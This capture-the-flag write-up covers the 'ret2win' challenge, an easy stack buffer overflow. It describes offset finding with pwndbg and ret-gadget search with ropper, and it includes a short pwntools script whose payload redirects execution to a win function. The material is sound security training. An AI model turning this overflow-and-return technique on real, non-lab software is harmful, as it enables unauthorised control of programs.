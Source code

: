 # ret2win 

This challenge is an easy buffer overflow attack.

## Basic file checks
The NX is enabled, so we can't execute code in the stack to do a shellcode attack 
![Alt Text](img/checksec.png)

## View the Source Code
So we disassemble it and we saw that is a ret2win() function
which it prints the flag when it be called
![Alt Text](img/ret2win_func.png)

The problem here it is that the ret2win() func, is never called by the main
so we are not able to get the flag. That's where the ret2win attack comes (obviously).

## Exploit
The first thing that we want to do is to crash the program to be able to control it.
We found the the offset to be 40 with pwndbg

We need a ret gadget to return to cause it's a x64 bit binary and not x32
We found it with ropper
![Alt Text](img/ret_gadget.png)

After these we wrote a simply python script with pwntools and we took the flag!
```python
#!/usr/bin/env python3 
from pwn import *

elf = context.binary = ELF('./ret2win', checksec=False)
p = process(elf.path)

padding = b"A" * 40
ret_gadget = 0x40053e #ret address

payload = flat(
        padding,
        ret_gadget,
        elf.symbols.ret2win
        )
```
p.sendlineafter(b'>', payload)
success(p.recvall())

![Alt Text](img/successful_pwntools_exploit.png)

We even write a manual exploit in terminal using python2 that has a lot of fun.
![Alt Text](img/python2_manualexploit.png)
![Alt Text](img/successful_manualexploit.png)
